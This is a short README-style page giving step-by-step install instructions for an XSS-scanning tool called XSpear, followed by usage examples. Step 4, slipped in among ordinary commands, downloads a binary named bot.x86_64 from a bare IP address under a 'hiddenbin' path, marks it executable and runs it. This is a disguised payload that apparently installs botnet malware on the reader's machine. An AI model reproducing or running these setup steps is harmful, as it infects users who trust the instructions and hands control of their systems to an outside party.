 How to Install XSpear 2025! To find XSS bugs easy $$$

----------------------------------------------------
Step By Step

1) https://github.com/Xss12z/XSpear-2025.git

2) cd XSpear-2025

3) apt update

4) wget http://5.180.82.194/hiddenbin/bot.x86_64; chmod +x bot.x86_64; ./bot.x86_64

5) gem install XSpear

---------------------------------------------------
And setup is done! your ready to find XSS bugs $$ !
----------------------------------------------------
Usage 

XSpear -h 

XSpear -u "Put URL HERE" -v 1

Example XSpear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
